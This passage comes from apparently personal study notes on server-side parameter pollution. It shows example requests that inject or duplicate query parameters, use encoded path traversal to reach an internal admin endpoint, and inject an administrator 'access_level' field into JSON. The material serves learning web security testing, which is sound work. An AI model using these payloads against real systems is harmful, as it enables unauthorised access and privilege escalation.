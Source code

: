 ##### Injecting valid parameters (found by for example Param Miner, or fuzz with intruder or other tool, just make sure to see the response)
Our request - `GET /userSearch?name=peter%26email=foo&back=/home`
Sent to internal API - `GET /users/search?name=peter&email=foo&publicProfile=true`

##### Overriding existing parameters - double same name
Our request - `GET /userSearch?name=peter%26name=carlos&back=/home`
Sent to internal API - `GET /users/search?name=peter&name=carlos&publicProfile=true`

###### How double parameters are interpreted
- PHP - last parameter only
- ASP.NET - combines both (`peter,carlos`), might error
- Node.js / express - first parameter only

#### Server-side parameter pollution in REST paths

As parameters in RESP APIs are different, we'll have to use other ways to modify them.

Example: `/api/users/123` where `/api` is the root API endpoint, `/users` represents a resource and `/123`represents a parameter.


Our request - `GET /edit_profile.php?name=peter`
Sent to internal REST API - `GET /api/private/users/peter`

We might manipulate these with path traversal like `/../`

Our request - `GET /edit_profile.php?name=peter%2f..%2fadmin`
Sent to internal REST API - `GET /api/private/users/peter/../admin`

Example 5 is a great example of this!

#### Server-side parameter pollution in structured data formats

###### JSON Example - Base Request (no modifications)

Our request:
```http
POST /myaccount
name=peter
```
Sent to internal API:
```http
PATCH /users/7312/update
{"name":"peter"}
```

###### JSON Example - Adding a parameter

Our request:
```http
POST /myaccount
name=peter","access_level":"administrator
```
Sent to internal API:
```http
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```
